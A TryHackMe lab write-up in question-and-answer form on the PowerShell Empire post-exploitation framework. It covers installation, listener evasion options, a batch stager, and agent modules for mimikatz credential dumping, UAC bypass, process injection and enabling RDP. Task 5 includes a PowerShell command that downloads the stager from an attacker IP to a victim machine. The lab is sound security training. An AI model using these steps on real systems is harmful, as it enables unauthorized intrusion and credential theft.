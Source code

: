 ```yaml
---
title: "RP PS Empire - TryHackMe"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "RP: PS Empire - TryHackMe writeup"
---
```


# RP: PS Empire

[TryHackMe | RP: PS Empire](https://tryhackme.com/room/rppsempire)

![https://i.imgur.com/0xn4lAt.jpg](https://i.imgur.com/0xn4lAt.jpg)

PowerShell Empire is a powerful post-exploitation framework which allows us to perform various functions such as privesc, password gathering, situational awareness, and many more!

Link to the official website: [https://www.bc-security.org/post/the-empire-3-0-strikes-back](https://www.bc-security.org/post/the-empire-3-0-strikes-back)

Clone the following GitHub page and run the initial setup script.

[https://github.com/BC-SECURITY/Empire/](https://github.com/BC-SECURITY/Empire/)

## [Task 2] Install

**#1 cd /opt**

```bash
Question Done
```

**#2 git clone [https://github.com/BC-SECURITY/Empire/](https://github.com/EmpireProject/Empire)**

```bash
Question Done
```

**#3 cd /opt/Empire**

```bash
Question Done
```

**#4 ./setup/install.sh**

```bash
Question Done
```

**#5 When prompted, enter in a server negotiation password. This can be left blank for random generation, however, you should record this somewhere such as a LastPass vault.**

```bash
Question Done
```

**#6 Launch Empire with either ./empire or /opt/Empire/empire**

```bash
Question Done
```

## [Task 3] Listeners

If you're going to play ball, first you have to learn how to catch. Similar to 'catching' a reverse shell with Netcat, we first have to set up a listener in order to properly handle any sort of agent we would install on our victim machine. Answer the following questions using the listeners help menu and then spawn a basic listener.

---

**#1 Once empire has launched, type help to view the various menus. Which menu to we launch to access listeners?**

```bash
listeners
```

**#2 Launch the listeners menu. In a manner similar to cobalt strike/metasploit, this will launch a contextual submenu. For the sake of this tutorial, we will be using an http listener in order to catch our connections. Type the command 'uselistener http' now. You can double-tap tab to view all options for listeners following typing 'uselistener'**

```bash
Question Done
```

**#3 What command can we now type to view all of the options related to our selected listener type?**

```bash
info
```

**#4 Once the information regarding the listener pops up, peruse this for some of the more interesting options we can set in order to disguise our actions more. Which option can we use to set specific times when our listener will be active?**

```bash
WorkingHours
```

**#5 Similar to changing/spoofing what browser you are using on the internet, what option can we set to appear as a different user agent (i.e. chrome, firefox, etc)?**

```bash
DefaultProfile
```

**#6 What option can we use to set the port which the listener will bind to?**

```bash
port
```

**#7 In addition to changing our browser profile, we can change what our server appears as. What option can we set to change this?**

```bash
ServerVersion
```

**#8 Launch our newly created listener on port 80 with the command 'execute'. What message is displayed following successfully launching the listener?**

```bash
Listener successfully started
```

**#9 We can verify that our listener is now active by typing what command?**

```bash
listeners
```

## [Task 4] Stagers

Stagers metaphorically and literally set the stage for post-exploitation by retrieving the remaining code and associated information necessary to spawn a full-fledged agent.

---

**#1 First, type the command 'usestager' and double-tap tab to view all options we have for stagers. Which option allows us to use a batch file?**

```bash
windows/launcher_bat
```

**#2 Let's finish our previous command and select the batch file option. Press enter to finalize this. What is our new path to the 'module' we have selected?**

```bash
stager/windows/launcher_bat
```

**#3 Since we've previously set our listener to use http, we must now set the associated options within our stager we are building to match that. What option must we set in order to accomplish this?**

```bash
Listener
```

**#4 Type execute to finish creating our stager. Where is the stager saved?**

```bash
/tmp/launcher.bat
```

**#5 Using any shell you have previously gained into our victim system transport the stager batch file to the system and execute it. This can be done in numerous ways depending on the stager used, be prepared to be flexible with your transportation methods similarly to how you might handle an msfvenom package.**

```bash
Question Done
```

## [Task 5] Agents and Post-Exploitation

Interact with our ses.. er agents and do neat things.
Download the evil file to the windows computer.

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.9.45.74/files/launcher.bat','C:\\Users\\Jon\\Documents\\launcher.bat](http://10.9.45.74/files/launcher.bat','C:%5C%5CUsers%5C%5CJon%5C%5CDocuments%5C%5Clauncher.bat)')"

```

**#1 First, type agents to view our registered agents.**

```bash
Question Done
```

**#2 Once you've typed agents to list the registered agents, the agents submenu will become active. Use the help menu to answer the following questions.**

```bash
Question Done
```

**#3 What command do we use to interact with an agent?**

```bash
interact
```

**#4 What about if we wanted to list any usernames and passwords we have gathered?**

```bash
creds
```

**#5 And if we wanted to 'deactivate' an agent for a while to avoid detection?**

```bash
sleep
```

**#6 How about if we wanted to delete an agent or disconnect it?**

```bash
kill
```

**#7 Moving into the post exploitation modules, what command can we use to search through these?**

```bash
searchmodule
```

**#8 We'll start with the most important module, find the module which plays a specific AC/DC song.**

```bash
python/trollsploit/osx/thunderstruck
```

**#9 What if we wanted to perform an lsa dump with a certain popular windows credential gathering tool?**

```bash
powershell/credentials/mimikatz/lsadump
```

**#10 Sometime we might not have the permissions level that we require to perform further actions, what module set might we have to use to get around UAC?**

```bash
bypassuac
```

**#11 What module family allows us to gather additional information about the network we are on?**

```bash
recon
```

**#12 Our process we have compromised might not be the most stable, how do we migrate to another process? (This will have a specific module answer)**

```bash
powershell/management/psinject
```

**#13 Last but not least, what module can we use to turn on remote desktop access for our purposes?**

```bash
powershell/management/enable_rdp
```

